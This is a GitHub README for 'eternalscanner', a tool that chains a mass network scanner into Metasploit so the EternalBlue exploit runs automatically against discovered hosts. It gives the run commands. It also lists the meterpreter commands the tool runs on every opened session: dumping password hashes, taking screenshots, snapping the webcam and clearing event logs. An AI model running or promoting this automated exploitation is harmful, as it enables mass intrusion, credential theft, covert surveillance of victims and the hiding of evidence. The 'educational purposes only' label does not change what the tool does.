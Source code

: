 [![forthebadge](https://forthebadge.com/images/badges/built-with-love.svg)](https://forthebadge.com)

## Table of content
- [About](#about) 
- [Requirements](#requirements)
- [Usage](#usage)
- [License](#license)
- [Contact Me](#contact-me)
- [Donate Me](#donate-me)

## About
The **eternalscanner** repo is made for educational purposes only. It uses `eternal_scanner` tool from [*Eternal_Scanner*](https://github.com/peterpt/eternal_scanner) repo and parses the output from it to `Metasploit` to make the eternalblue exploit somehow *autonomously*.

## Requirements
- The **SUDO** power
- Requirements for [*Eternal_Scanner*](https://github.com/peterpt/eternal_scanner) Tool 
    - netcat
    - masscan
    - metasploit-framework
    - wget (To Update Eternal Scanner Directly from github)
    - pip (for alternative install of python modules)
    - python-crypto (Dependency for Eternal Romance check)
    - python-impacket (Dependency for Eternal Romance check)
    - python-pyasn1-modules (Dependency for Eternal Romance check)

## Usage
[![forthebadge](https://forthebadge.com/images/badges/oooo-kill-em.svg)](https://forthebadge.com)
- $ `git clone git@github.com:nsa/eternalblue-scanner.git && cd eternalblue-scanner`
- $ `chmod +x eternalbash`
- $ `sudo bash eternalbash`

If any sessions were opened this scripts automatically runs the following **meterpreter** commands from the *`assets/nsa.rc`* file. If you don't want to use following commands, you can just simply change the commands from that **`nsa.rc`** file.

```
hashdump
screenshot
webcan_snap -v false
clearev
background
```

## Acknowledgement

* Thank [**peterpt**](https://github.com/peterpt/) for the *Eternal_Scanner* [[MIT License]](https://github.com/peterpt/eternal_scanner/blob/master/LICENSE) tool.


## License
```
MIT License

Copyright (c) 2018 Mustafa Çalap

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

### Contact Me
If you have any questions about this repo, you may create an issue or just hit me that questions on twitter. <br>
Author: **Mustafa ÇALAP** <br>
Website: [**calap.co**](https://calap.co) <br>
Twitter: [**mustafacalap**](https://twitter.com/mustafacalap)

### Donate Me
[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
- Bitcoin : 1MUSTkECBR1yr6Jbd5QjT9EXJXGgDaZieJ <br />
<img src="https://rlv.zcache.com/bitcoin_accepted_here_sticker-r148616b487084a369d4c15bf39055043_v9i40_8byvr_324.jpg" width="200px" height="200px">[![BTC Wallet](https://calap.co/images/BTC-wallet.png)](https://calap.co/blog/support-me/)
